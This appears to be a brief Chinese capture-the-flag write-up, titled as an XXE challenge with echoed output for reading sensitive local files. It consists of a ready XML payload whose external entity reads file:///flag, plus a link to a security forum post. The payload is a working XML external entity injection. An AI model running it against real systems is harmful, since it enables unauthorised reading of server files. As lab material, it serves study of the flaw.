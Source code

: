 考核：XXE有回显读取本地敏感文件

解题：

```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root>
<name>&xxe;</name>
</root>
```

![](Ew2DF3T.png)

https://xz.aliyun.com/t/3357